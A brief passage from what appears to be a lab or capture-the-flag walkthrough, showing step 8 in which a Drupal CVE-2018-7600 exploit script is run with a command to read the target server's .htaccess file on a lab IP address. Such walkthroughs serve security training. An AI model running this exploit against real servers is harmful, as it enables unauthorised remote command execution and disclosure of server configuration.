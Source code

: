 8.  Check .htaccess 
```
python drupa7-CVE-2018-7600.py -c 'cat .htaccess' http://10.129.48.89 
```

![](./IMG/16.png)
